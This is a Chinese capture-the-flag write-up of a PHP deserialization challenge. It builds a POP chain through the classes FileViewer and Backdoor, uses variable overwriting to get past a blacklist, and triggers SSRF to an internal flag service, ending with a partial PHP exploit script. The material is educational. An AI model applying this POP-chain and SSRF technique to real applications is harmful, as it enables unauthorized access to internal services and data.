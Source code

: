 反序列化和POP链的基础知识参考前文 **ez_1zpop**

- `__call()`：在尝试调用类方法，而方法不存在时被调用，常用作桥梁

class暂且不看，可以直接得到以下信息，尝试传入image_path以读取flag.php

![截图](https://nssctf.wdf.ink/img/yxy/531755fba797d5ac159d5d7a2d1205eb.png)

![截图](https://nssctf.wdf.ink/img/yxy/38bcc0f2155271993b3c996c0ebae18c.png)

得到base64编码后的flag.php，解码试试

![截图](https://nssctf.wdf.ink/img/yxy/2dcf20eb1bf4be896562d64cd0bf5863.png)

flag被放在了 127.0.0.1:65500 属于内网地址，外网无法访问

考点：==SSRF== ==POP链== ==反序列化== ==变量覆盖==

![截图](https://nssctf.wdf.ink/img/yxy/d4b287a5065ce452eb85d28da8552fa3.png)

先base64解码，再反序列化 -> 序列化后base64编码一下

构造过程：

1. **FileViewer::curl()** 可导致SSRF
   - 局部变量： `$url` = `$path` = `http://127.0.0.1:65500/flag`
2. **FileViewer::loadfile()** 可执行 **FileViewer::curl()** ，顺便把黑名单搞了
   - 局部变量：`$this->black_list="黑名单什么的管不着我"` ，`$this->local = http://127.0.0.1` ，`$this->path = /flag`
3. **FileViewer::_call()**  可执行 **FileViewer::loadfile()** 
   - 局部变量：无
4. **Backdoor::__destruct()** 可执行 **FileViewer::__call()**
   - 局部变量：`$this->a = new FileViewer`
5. **Backdoor::__destruct()** 为入口，==但是不存在 **loadfile()** 方法，会报错==，故作第二入口
   - 局部变量：无
6. 仅 **FileViewer** 可能作为入口，且不能绕过 **__wakeup()** 方法，==返回bool报错==
   - 局部变量：`$this->local = new Backdoor`
     
     `black_list` 与 `path` 在 `loadfine()` 方法中会被当作字符串处理，由于 `Backdoor` 无 `__toString()` 方法，==会报错==
7. **Backdoor::goodman()** 变量覆盖，直接对 **local** 进行修改
   - 局部变量：`$this->b = "local"` ，`$this->superhacker = "http://127.0.0.1:65500"`
8. 调用反序列化后的 **loadfile()** 方法

故构造如下POP链：`FileViewer -> Backdoor::__destruct() -> FileViewer::__call() -> FileViewer::loadfile() -> FileViewer::curl()`

贴个exp：

```php
<?php
class FileViewer
{
    public $black_list;
    public $local;
    public $path;
}
class Backdoor
{
    public $a;
    public $b;
    public $superhacker;
}

$m = new FileViewer;
$n = new Backdoor;
$n->a=$m;
$n->b="local";
$n->superhacker="127.0.0.1:65500/";
$m->black_list="黑名单什么的管不着我";
$m->local=$n;
```